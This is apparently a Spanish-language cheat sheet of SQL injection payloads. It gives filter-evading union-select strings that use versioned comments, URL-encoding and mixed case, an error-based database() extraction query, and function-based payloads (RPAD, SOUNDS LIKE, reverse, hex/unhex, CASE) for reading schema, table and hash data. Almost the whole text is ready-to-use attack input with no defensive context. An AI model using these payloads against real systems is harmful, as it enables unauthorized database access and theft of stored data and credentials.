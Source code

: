 ```
/**8**/and/**8**/0/**8**//*!50000union*//**8**//*!50000select*//**8**/+ numero de columnas +--+

+/*!50000%55nIoN*/+/*!50000%53eLeCt*/+

SELECT * FROM (SELECT count(*), CONCAT((SELECT database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y --

+uNiOn+(/*!/**/SeleCT*/+1,22,333...)+--+

%55%6e%49%6f%4e(/*!/**/%20SeleCT%20*/%2011,22,33,44,55,66,77,88,90,1010,1111,1212,1313,1414,1515,1616,1717,1818,1919....)

+/*✓*/UnIoN/*✓*/+/*✓*/AlL/*✓*/+(SeLeCt+1,2,3,%27soy%20vulnerable%27,5,6.....)+--+

+div+@a:=(current_user/**_**/())+UNION/**/DISTINCTROW+SELECT+1,2,@a,4+--+

%75nion/**)!*/sele%63%74/**)!*/+1,2,3....

/*!50000%75%6e%69on*/ %73%65%6cect 1,2,3,4,5--

+union(select+1,2,3,4,concat(column_name),6,...+from+information_schema.columns+where+table_name=%22columna%22+limit+1,1)+--+

+union(select+1,2,3,database(),concat(hash,0x3a,hash),6..+from(columna))+--+

```


## Inyecciónes sql usando funciones sql

### Sql inyection payload usando la función RPAD y SOUNDS LIKE 

`SELECT RPAD(table_name,50,'.') from information_schema.tables where table_schema sounds like database()`

### Sql inyection payload usando upper + reverse + right + sounds like para extraer información  

`select upper(reverse(right(reverse(table_name),100)))from information_schema.tables where table_schema sounds like database()`

### Sql inyection usando elt, doble Reverse, hex y unhex

`Select unhex(hex(reverse(reverse(elt(1, table_Name))))) from information_schema.tables`

### Sql inyection case

```
SELECT CASE WHEN (1=1) THEN table_name ELSE '<a href=https://twitter.com/_Y000_>_Y00!_</a>' END from information_schema.tables

SELECT CASE 4 WHEN 1 THEN database() WHEN 2 THEN @@version WHEN 3 THEN table_name ELSE '_Y000!_' END FROM information_schema.tables

SELECT CASE WHEN 1>0 THEN table_name ELSE '_Y000!_' END FROM information_schema.tables
```
